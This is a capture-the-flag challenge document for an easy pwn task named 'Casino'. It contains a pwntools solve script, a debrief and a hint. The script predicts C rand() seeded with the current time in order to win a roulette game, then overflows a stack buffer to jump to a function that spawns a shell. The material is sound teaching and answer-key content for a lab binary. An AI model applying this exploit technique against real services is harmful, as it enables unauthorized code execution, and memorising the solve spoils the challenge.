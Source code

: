 # Challenge Document


### Version: `0.1.0`
### Long Title: Casino
### Short Title: PWN01
### Author: Sasha Shaw
### Date: 07/08/2025
### Difficulty: Easy
### Learning objective: Learn how to break C rand() with predictable seed and perform a ret2win attack


## Challenge Brief (as its to be written in RIO):

Exploit the service and retrieve the flag at `/home/ctf/flag.txt`

## Solve:

```py
#!/usr/bin/python3
from pwn import *
from sys import argv
import ctypes

e = context.binary = ELF('./casino')
if len(argv) > 1:
    ip, port = argv[1].split(":")
    conn = lambda: remote(ip, port)
else:
    conn = lambda: e.process()

libc = ctypes.CDLL("libc.so.6")

p = conn()
libc.srand(libc.time(0))

money = 10
while money < 0x1337133713371337:
    print(hex(money))
    choice = libc.rand() % 37
    p.sendlineafter(b"> ", b"2")
    p.sendlineafter(b"Pick your number: ", str(choice).encode())
    p.sendlineafter(b"How much do you want to bet: ", str(money).encode())
    p.recvuntil(b"The wheel has landed on ")
    result = int(p.recvline())
    if choice != result:
        log.error(f"Gussed {choice}, landed on {result}")
        exit(1)
    money *= 36

p.sendlineafter(b"You need to get out of here, and quickly!", b"A"*0x88 + p64(e.sym.escape_casino))
p.interactive()
```

## Author Notes: 

## Debrief: 

The first part of the challenge involves attacking C's `rand()`.
We're inside a loop, where we can bet on a roulette wheel, where the numbers are decided using `rand() % 37`.
We need to win enough money before progressing, but to do this we need to be able to predict `rand()`'s output.

`rand()` is a pseudo-random number generator, so it will use a seed. If we were able to get this seed, the numbers from `rand()` would be predictable.
We see that it first calls `srand(time(NULL))`, which means it's getting the current time, and using that as the seed for `srand()`.
This seed is predictable by simply getting the current time on your system.
With the seed, we can repeatedly predict the exact number the wheel will land on, send that number, and win enough money to move on.

The second part is a buffer overflow on the stack.
This can be used to control the return address, which we use to jump to the `escape_casino()` function to get a shell.
The offset can be found either using De Brujn Sequences, debugging, or disassembling main.

## Hints: 

What does `srand(time(NULL))` do? Will this have any consequences on the predictability of the randomly generated numbers?
